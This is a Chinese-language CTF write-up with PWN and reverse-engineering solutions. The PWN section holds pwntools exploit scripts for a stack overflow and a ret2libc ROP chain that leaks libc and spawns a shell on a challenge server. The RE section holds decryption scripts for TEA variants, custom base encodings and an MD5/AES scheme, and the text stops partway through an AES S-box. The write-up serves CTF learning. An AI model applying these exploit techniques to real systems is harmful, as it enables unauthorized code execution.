# PWN

## Hello_world

​​

开了 pie

​​

存在后面函数

​​

func1 足够栈溢出 由于 pie 的原因，多发几次即可获得 flag

```python
from pwn import *

e = ELF("D:\\CTF\\GH\\attachment")

s = remote("node2.anna.nssctf.cn", 28170)

payload = b'1' * 40 + b'\xC5\x09'

print(payload)

s.send(payload)

s.interactive()
```

## ret2libc1

​​

​​

shop 中发现溢出点，要到达溢出点要获取足够金币

​​

借助这个函数获取金币

puts 泄露 libc 基地址，rop 获取 shell

```python
from pwn import *

libc = ELF("D:\\CTF\\GH\\ret2libc1\\libc.so.6")
e = ELF("D:\\CTF\\GH\\ret2libc1\\attachment")
s = remote("node2.anna.nssctf.cn",28623)


poprdi_addr = 0x400d73
ret_addr = 0x400579
shop_addr = e.symbols['shop']
puts_got = e.got['puts']
puts_plt = e.plt['puts']
puts_offset = libc.symbols['puts']

payload0 = b'a'*(0x40+8)
payload0 += p64(poprdi_addr) + p64(puts_got)
payload0 += p64(puts_plt)
payload0 += p64(shop_addr)

# s.send(payload)

s.send(b'7')
s.send(b'11111')
s.send(b'6')
s.sendafter(b'check youer money',b'5')

s.send(payload0)

puts_real_addr=u64(s.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts_real_addr))

libc_base = puts_real_addr - puts_offset
print(hex(libc_base))

system_addr = 0x453A0 + libc_base
bin_addr = 0x18ce57 + libc_base

payload1 = b'a' * (0x40 + 8)
payload1 += p64(ret_addr)
payload1 += p64(poprdi_addr) + p64(bin_addr)
payload1 += p64(system_addr)
payload1 += p64(shop_addr)


s.send(payload1)


s.interactive()
```

# RE

## ASM?Signin!

data1 生成密钥解密 data2

```python
data1 = [
    0x26, 0x27, 0x24, 0x25, 0x2A, 0x2B, 0x28, 0x00,
    0x2E, 0x2F, 0x2C, 0x2D, 0x32, 0x33, 0x30, 0x00,
    0x36, 0x37, 0x34, 0x35, 0x3A, 0x3B, 0x38, 0x39,
    0x3E, 0x3F, 0x3C, 0x3D, 0x3F, 0x27, 0x34, 0x11
]

def swap(data, a, b):
    for i in range(4):
        data[a+i], data[b+i] = data[b+i], data[a+i]


si = 0
for _ in range(8):
    di = si + 4
    if di >= 28:
        di -= 28

    swap(data1, si, di)
    si += 4


enc_keys = []
for di in range(0, 32, 4):
    key1 = (data1[di+2] << 8) | data1[di+1]
    key2 = (data1[di+3] << 8) | data1[di+2]
    enc_keys.append( (key1, key2) )


data2 = [
    0x69, 0x77, 0x77, 0x66, 0x73, 0x72, 0x4F, 0x46,
    0x03, 0x47, 0x6F, 0x79, 0x07, 0x41, 0x13, 0x47,
    0x5E, 0x67, 0x5F, 0x09, 0x0F, 0x58, 0x63, 0x7D,
    0x5F, 0x77, 0x68, 0x35, 0x62, 0x0D, 0x0D, 0x50
]

flag = []
for i in range(0, 32, 4):
    group = data2[i:i+4]
    k1, k2 = enc_keys[i//4]

    word1 = (group[1] << 8) | group[0]
    dec_word1 = word1 ^ k1
    b0 = dec_word1 & 0xFF
    b1 = (dec_word1 >> 8) & 0xFF

    word2 = (group[3] << 8) | group[2]
    dec_word2 = word2 ^ k2
    b2 = dec_word2 & 0xFF
    b3 = (dec_word2 >> 8) & 0xFF

    flag.extend([b0, b1, b2, b3])

flag_bytes = bytes(flag)
print(flag_bytes)
```

## FishingKit

​​

两个关键位置

​​

z3 解出 key `DeluxeBait`​，再解出结果发现是假的 flag，肯定是哪里有问题

​​

发现奇怪的函数，动调获得解密后字符串，发现获取了 strcmp 的地址

​​

再下面的函数对 strcmp 进行修改，似乎是 inlinehook？

​​

流程被劫持到这个函数中，分析发现是变种后的 tea 加密,根据加密过程写出解密过程

```c
#include <stdio.h>
#include <stdint.h>
#include <string.h>

void decrypt(uint32_t* v, uint32_t* key) {
	uint32_t v0 = v[0], v1 = v[1], sum = 0x9B34CE58, i;
	uint32_t delta = 0x66778899;
	for (i = 0; i<24; i++) {
		v1 -= (key[(sum >> 11)&3] + sum) ^ (((v0 << 4) ^ (v0 >> 5)) + v0);
		sum -= delta;
		v0 -= (key[sum & 3] + sum) ^ (((v1 << 4) ^ (v1 >> 5)) + v1);
	}
	v[0] = v0; v[1] = v1;
}


int main()
{

	uint32_t v[6] = {0xA6975621,0xDEC4D51A,0x4D829CA4,0x56C845D1,0x5C96B4A7,0x2087494D};
    uint32_t k[] = {0x756C6544,0x61426578,0x7469,0};

    for (int i = 0; i < 3; i++)  {
        decrypt(&v[2*i], k);
    }
	for (int i = 0; i < 24; i++)
	{
        printf("%c",*((char *)v + i));
	}
	printf("\n");
	return 0;
}

```

## LockedSecret

​​

修改后的 upx 壳，一些特征被改掉了

​​

改回来后用 upx -d 即可脱壳

​​

两个关键函数

​​

直接动调取出

​​

第二个函数看似依托，其实仔细分析发现是个 tea，每次循环 8 次，delta 为 0x5E2377FF

```c
#include<stdio.h>
#define delta 0x5E2377FF
#include <stdint.h>

//加密函数
void encrypt(uint32_t* v, uint32_t* k) {
	uint32_t v0 = v[0], v1 = v[1], sum = 0, i;
	uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];
	for (i = 0; i < 8; i++) {
		sum += delta;
		v0 += ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);
		v1 += ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);
	}

	v[0] = v0 ^ 0xf; v[1] = v1 ^ 0xf;
}

//解密函数
void decrypt(uint32_t* v, uint32_t* k) {
	uint32_t v0 = v[0], v1 = v[1], sum = 0xF11BBFF8, i;
	uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3];
    v0^=0xf;
    v1^=0xf;
	for (i = 0; i < 8; i++) {
		v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);
		v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);
		sum -= delta;
	}
	v[0] = v0; v[1] = v1;
}


int main() {
    uint32_t k[] = {0x423DF72D,0x5F59A01,0x633FCF1D,0x77D19122};
    uint32_t v[] = {0x31E45DC,0x2776E989,0x1234847,0x64CED270,0x33467FDA,0xA34903B1,0x2CD10027,0x75BDB337};

    uint32_t v1[] = {1,2,3,4};
    for (int i = 0; i < 4; i++) {
        decrypt(&v[2*i],k);
    }
    for (int i = 0; i < 32; i++) {
        printf("%c",*((char*)v+i));
    }
}
```

## Mio？Ryo？Soyo？

pyinstaller 打包软件，直接解包

```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.8

from Secret import *
if __name__ == '__main__':
    print('输入:', '', **('end',))
    aaaaaaaaaaaaa = input()
    wwwwwwwwwww = l(aaaaaaaaaaaaa)
    if sssssssssssss == wwwwwwwwwww.encode():
        print('哦，对的。')
    else:
        print('哎，并非。')
    input()

```

```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.8

from SecretEncrypt import *
sssssssssssss = bytes([
    57,
    118,
    33,
    114,
    68,
    56,
    117,
    115,
    34,
    52,
    52,
    95,
    78,
    40,
    49,
    59,
    95,
    85,
    63,
    122,
    54,
    33,
    77,
    110,
    49,
    54,
    34,
    109,
    106,
    122,
    60,
    92,
    108,
    91,
    61,
    51,
    42,
    62,
    35,
    38,
    52,
    67,
    62,
    122,
    116,
    48,
    76,
    50,
    67,
    51,
    59,
    41,
    122,
    45,
    45,
    51,
    90])

def l(_ = None):
    return SSSooooyyooo(MMMMiiiiiio.MMMMiiooooooo(SSSooooyyooo(RRRRyyooo.RRRRRRRyyyyooooo(_.encode()), 7).encode()), 9)

```

```python
# Visit https://www.lddgo.net/string/pyc-compile-decompile for more information
# Version : Python 3.8

import math

class MMMMiiiiiio:
    MMiiiiiiooo = ''.join((lambda .0: [ chr(Miiooooooooo) for Miiooooooooo in .0 ])(range(33, 118)))

    def MMMMiiooooooo(MMMMMMMMMiiiooo = None):
        MMMMiiiiioooooooooo = ''
        MMMMMMMiiiiioo = (4 - len(MMMMMMMMMiiiooo) % 4) % 4
        MMMMMMMMMiiiooo += b'\x00' * MMMMMMMiiiiioo
        for MMMMMMiiiiiio in range(0, len(MMMMMMMMMiiiooo), 4):
            MMMMiiiiiiooooo = MMMMMMMMMiiiooo[MMMMMMiiiiiio:MMMMMMiiiiiio + 4]
            MMMMMMiiioooooo = int.from_bytes(MMMMiiiiiiooooo, 'big')
            MMMMMMMiiooooooooo = ''
            for _ in range(5):
                MMMMMMMiiooooooooo = MMMMiiiiiio.MMiiiiiiooo[MMMMMMiiioooooo % 85] + MMMMMMMiiooooooooo
                MMMMMMiiioooooo //= 85
            MMMMiiiiioooooooooo += MMMMMMMiiooooooooo
        if MMMMMMMiiiiioo:
            MMMMiiiiioooooooooo = MMMMiiiiioooooooooo[:-MMMMMMMiiiiioo]
        return MMMMiiiiioooooooooo

    MMMMiiooooooo = None(MMMMiiooooooo)


class RRRRyyooo:
    RRRRyooooooo = ''.join((lambda .0: [ chr(RRRRRRRyyyyyoooo) for RRRRRRRyyyyyoooo in .0 ])(range(48, 93)))

    def RRRRRRRyyyyooooo(RRRRRRyyyoooooo = None):
        RRRRyyyyyooo = []
        RRyyyyyyyyyoooooo = 0
        if RRyyyyyyyyyoooooo < len(RRRRRRyyyoooooo):
            if RRyyyyyyyyyoooooo + 1 < len(RRRRRRyyyoooooo):
                RRRRRRRRRyyo = RRRRRRyyyoooooo[RRyyyyyyyyyoooooo] << 8 | RRRRRRyyyoooooo[RRyyyyyyyyyoooooo + 1]
                RRRRyyyyyooo.append(RRRRyyooo.RRRRyooooooo[RRRRRRRRRyyo % 45])
                RRRRRRRRRyyo //= 45
                RRRRyyyyyooo.append(RRRRyyooo.RRRRyooooooo[RRRRRRRRRyyo % 45])
                RRRRRRRRRyyo //= 45
                RRRRyyyyyooo.append(RRRRyyooo.RRRRyooooooo[RRRRRRRRRyyo])
                RRyyyyyyyyyoooooo += 2
                continue
            RRRRRRRRRyyo = RRRRRRyyyoooooo[RRyyyyyyyyyoooooo]
            RRRRyyyyyooo.append(RRRRyyooo.RRRRyooooooo[RRRRRRRRRyyo % 45])
            RRRRRRRRRyyo //= 45
            RRRRyyyyyooo.append(RRRRyyooo.RRRRyooooooo[RRRRRRRRRyyo])
            RRyyyyyyyyyoooooo += 1
            continue
        return ''.join(RRRRyyyyyooo)

    RRRRRRRyyyyooooo = None(RRRRRRRyyyyooooo)


def SSSooooyyooo(SSSSooyoooooo, SSSSSoyyooooo):
    SSoooooyyyyyyoo = []
    for SSSSSSSSSoyooo in SSSSooyoooooo:
        if SSSSSSSSSoyooo <= SSSSSSSSSoyooo or SSSSSSSSSoyooo <= 'z':
            pass
        else:
            'a'
    SSSSoooyooooooo = ((ord(SSSSSSSSSoyooo) - ord('a')) + SSSSSoyyooooo) % 26
    SSoooooyyyyyyoo.append(chr(ord('a') + SSSSoooyooooooo))
    continue
    if SSSSSSSSSoyooo <= SSSSSSSSSoyooo or SSSSSSSSSoyooo <= '9':
        pass
    else:
        '0'
    SSSSoooyooooooo = (ord(SSSSSSSSSoyooo) - ord('0') - SSSSSoyyooooo) % 10
    SSoooooyyyyyyoo.append(chr(ord('0') + SSSSoooyooooooo))
    continue
    SSoooooyyyyyyoo.append(SSSSSSSSSoyooo)
    continue
    return ''.join(SSoooooyyyyyyoo)

```

base85 +换了码表 base 45 + 变种凯撒 套娃加密 ，直接逆向解密即可，ciperchef 梭

​​

## TimeSpaceRescue

​​

两处关键函数

​​​

发现 md5 的常数

​​

从结构体可以看出，程序获取了年月日，进行 md5，然后异或得到 key

​​

aes 加密，对数据进行了暗处理

​​

但是发现爆破不出来，然后发现反调试函数，都堆在一起了

​​

​​

md5 加密和 aes 最后都有不影响反编译的花

​​

去掉后得到正确流程，根据题目 2024 年爆破得到 flag

```python
#include <stdint.h>
#include <stdio.h>
#include <string.h>
// Copyright 2020-2021 The jdh99 Authors. All rights reserved.
// calc md5
// Authors: jdh99 <jdh821@163.com>


#include <string.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

// Constants are the integer part of the sines of integers (in radians) * 2^32.
const uint32_t k[64] = {
0xd76aa478, 0xe8c7b756, 0x242070db, 0xc1bdceee ,
0xf57c0faf, 0x4787c62a, 0xa8304613, 0xfd469501 ,
0x698098d8, 0x8b44f7af, 0xffff5bb1, 0x895cd7be ,
0x6b901122, 0xfd987193, 0xa679438e, 0x49b40821 ,
0xf61e2562, 0xc040b340, 0x265e5a51, 0xe9b6c7aa ,
0xd62f105d, 0x02441453, 0xd8a1e681, 0xe7d3fbc8 ,
0x21e1cde6, 0xc33707d6, 0xf4d50d87, 0x455a14ed ,
0xa9e3e905, 0xfcefa3f8, 0x676f02d9, 0x8d2a4c8a ,
0xfffa3942, 0x8771f681, 0x6d9d6122, 0xfde5380c ,
0xa4beea44, 0x4bdecfa9, 0xf6bb4b60, 0xbebfbc70 ,
0x289b7ec6, 0xeaa127fa, 0xd4ef3085, 0x04881d05 ,
0xd9d4d039, 0xe6db99e5, 0x1fa27cf8, 0xc4ac5665 ,
0xf4292244, 0x432aff97, 0xab9423a7, 0xfc93a039 ,
0x655b59c3, 0x8f0ccc92, 0xffeff47d, 0x85845dd1 ,
0x6fa87e4f, 0xfe2ce6e0, 0xa3014314, 0x4e0811a1 ,
0xf7537e82, 0xbd3af235, 0x2ad7d2bb, 0xeb86d391 };

// r specifies the per-round shift amounts
const uint32_t r[] = {7, 12, 17, 22, 7, 12, 17, 22, 7, 12, 17, 22, 7, 12, 17, 22,
                      5,  9, 14, 20, 5,  9, 14, 20, 5,  9, 14, 20, 5,  9, 14, 20,
                      4, 11, 16, 23, 4, 11, 16, 23, 4, 11, 16, 23, 4, 11, 16, 23,
                      6, 10, 15, 21, 6, 10, 15, 21, 6, 10, 15, 21, 6, 10, 15, 21};

// leftrotate function definition
#define LEFTROTATE(x, c) (((x) << (c)) | ((x) >> (32 - (c))))

void to_bytes(uint32_t val, uint8_t *bytes)
{
    bytes[0] = (uint8_t) val;
    bytes[1] = (uint8_t) (val >> 8);
    bytes[2] = (uint8_t) (val >> 16);
    bytes[3] = (uint8_t) (val >> 24);
}

uint32_t to_int32(const uint8_t *bytes)
{
    return (uint32_t) bytes[0]
        | ((uint32_t) bytes[1] << 8)
        | ((uint32_t) bytes[2] << 16)
        | ((uint32_t) bytes[3] << 24);
}

void md5(const uint8_t *initial_msg, size_t initial_len, uint8_t *digest) {

    // These vars will contain the hash
    uint32_t h0, h1, h2, h3;

    // Message (to prepare)
    uint8_t *msg = NULL;

    size_t new_len, offset;
    uint32_t w[16];
    uint32_t a, b, c, d, i, f, g, temp;

    // Initialize variables - simple count in nibbles:
    h0 = 0x67452301;
    h1 = 0xefcdab89;
    h2 = 0x98badcfe;
    h3 = 0x10325476;

    //Pre-processing:
    //append "1" bit to message
    //append "0" bits until message length in bits ≡ 448 (mod 512)
    //append length mod (2^64) to message

    for (new_len = initial_len + 1; new_len % (512/8) != 448/8; new_len++)
        ;

    msg = (uint8_t*)malloc(new_len + 8);
    memcpy(msg, initial_msg, initial_len);
    msg[initial_len] = 0x80; // append the "1" bit; most significant bit is "first"
    for (offset = initial_len + 1; offset < new_len; offset++)
        msg[offset] = 0; // append "0" bits

    // append the len in bits at the end of the buffer.
    to_bytes(initial_len*8, msg + new_len);
    // initial_len>>29 == initial_len*8>>32, but avoids overflow.
    to_bytes(initial_len>>29, msg + new_len + 4);

    // Process the message in successive 512-bit chunks:
    //for each 512-bit chunk of message:
    for(offset=0; offset<new_len; offset += (512/8)) {

        // break chunk into sixteen 32-bit words w[j], 0 ≤ j ≤ 15
        for (i = 0; i < 16; i++)
            w[i] = to_int32(msg + offset + i*4);

        // Initialize hash value for this chunk:
        a = h0;
        b = h1;
        c = h2;
        d = h3;

        // Main loop:
        for(i = 0; i<64; i++) {

            if (i < 16) {
                f = (b & c) | ((~b) & d);
                g = i;
            } else if (i < 32) {
                f = (d & b) | ((~d) & c);
                g = (5*i + 1) % 16;
            } else if (i < 48) {
                f = b ^ c ^ d;
                g = (3*i + 5) % 16;
            } else {
                f = c ^ (b | (~d));
                g = (7*i) % 16;
            }

            temp = d;
            d = c;
            c = b;
            b = b + LEFTROTATE((a + f + k[i] + w[g]), r[i]);
            a = temp;

        }

        // Add this chunk's hash to result so far:
        h0 += a;
        h1 += b;
        h2 += c;
        h3 += d;

    }

    // cleanup
    free(msg);

    //var char digest[16] := h0 append h1 append h2 append h3 //(Output is in little-endian)
    to_bytes(h0, digest);
    to_bytes(h1, digest + 4);
    to_bytes(h2, digest + 8);
    to_bytes(h3, digest + 12);
}


typedef struct{
    uint32_t eK[44], dK[44];    // encKey, decKey
    int Nr; // 10 rounds
}AesKey;

#define BLOCKSIZE 16  //AES-128分组长度为16字节

// uint8_t y[4] -> uint32_t x
#define LOAD32H(x, y) \
  do { (x) = ((uint32_t)((y)[0] & 0xff)<<24) | ((uint32_t)((y)[1] & 0xff)<<16) | \
             ((uint32_t)((y)[2] & 0xff)<<8)  | ((uint32_t)((y)[3] & 0xff));} while(0)

// uint32_t x -> uint8_t y[4]
#define STORE32H(x, y) \
  do { (y)[0] = (uint8_t)(((x)>>24) & 0xff); (y)[1] = (uint8_t)(((x)>>16) & 0xff);   \
       (y)[2] = (uint8_t)(((x)>>8) & 0xff); (y)[3] = (uint8_t)((x) & 0xff); } while(0)

// 从uint32_t x中提取从低位开始的第n个字节
#define BYTE(x, n) (((x) >> (8 * (n))) & 0xff)

/* used for keyExpansion */
// 字节替换然后循环左移1位
#define MIX(x) (((S[BYTE(x, 2)] << 24) & 0xff000000) ^ ((S[BYTE(x, 1)] << 16) & 0xff0000) ^ \
                ((S[BYTE(x, 0)] << 8) & 0xff00) ^ (S[BYTE(x, 3)] & 0xff))

// uint32_t x循环左移n位
#define ROF32(x, n)  (((x) << (n)) | ((x) >> (32-(n))))
// uint32_t x循环右移n位
#define ROR32(x, n)  (((x) >> (n)) | ((x) << (32-(n))))

/* for 128-bit blocks, Rijndael never uses more than 10 rcon values */
// AES-128轮常量
static const uint32_t rcon[10] = {
        0x01000000UL, 0x02000000UL, 0x04000000UL, 0x08000000UL, 0x10000000UL,
        0x20000000UL, 0x40000000UL, 0x80000000UL, 0x1B000000UL, 0x36000000UL
};
// S盒
unsigned char S[256] = {
        0x63, 0x7C, 0x77, 0x7B, 0xF2, 0x6B, 0x6F, 0xC5, 0x30, 0x01, 0x67, 0x2B, 0xFE, 0xD7, 0xAB, 0x76,
        0xCA, 0x82, 0xC9, 0x7D, 0xFA, 0x59, 0x47, 0xF0, 0xAD, 0xD4, 0xA2, 0xAF, 0x9C, 0xA4, 0x72, 0xC0,
        0xB7, 0xFD, 0x93, 0x26, 0x36, 0x3F, 0xF7, 0xCC, 0x34, 0xA5, 0xE5, 0xF1, 0x71, 0xD8, 0x31, 0x15,
        0x04, 0xC7, 0x23, 0xC3, 0x18, 0x96, 0x05, 0x9A, 0x07, 0x12, 0x80, 0xE2, 0xEB, 0x27, 0xB2, 0x75,
        0x09, 0x83, 0x2C, 0x1A, 0x1B, 0x6E, 0x5A, 0xA0, 0x52, 0x3B, 0xD6, 0xB3, 0x29, 0xE3, 0x2F, 0x84,
        0x53, 0xD1, 0x00, 0xED, 0x20, 0xFC, 0xB1, 0x5B, 0x6A, 0xCB, 0xBE, 0x39, 0x4A, 0x4C, 0x58, 0xCF,
        0xD0, 0xEF, 0xAA, 0xFB, 0x43, 0x4D, 0x33, 0x85, 0x45, 0xF9, 0x02, 0x7F, 0x50, 0x3C, 0x9F, 0xA8,
        0x51, 0xA3, 0x40, 0x8F, 0x92, 0x9D, 0x38, 0xF5, 0xBC, 0xB6, 0xDA, 0x21, 0x10, 0xFF, 0xF3, 0xD2,
        0xCD, 0x0C, 0x13, 0xEC, 0x5F, 0x97, 0x44, 0x17, 0xC4, 0xA7, 0x7E, 0x3D, 0x64, 0x5D, 0x19, 0x73,
        0x60, 0x81, 0x4F, 0xDC, 0x22, 0x2A, 0x90, 0x88, 0x46, 0xEE, 0xB8, 0x14, 0xDE, 0x5E, 0x0B, 0xDB,
        0xE0, 0x32, 0x3A, 0x0A, 0x49, 0x06, 0x24, 0x5C, 0xC2, 0xD3, 0xAC, 0x62, 0x91, 0x95, 0xE4, 0x79,
        0xE7, 0xC8, 0x37, 0x6D, 0x8D, 0xD5, 0x4E, 0xA9, 0x6C, 0x56, 0xF4, 0xEA, 0x65, 0x7A, 0xAE, 0x08,
        0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A,
        0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E,
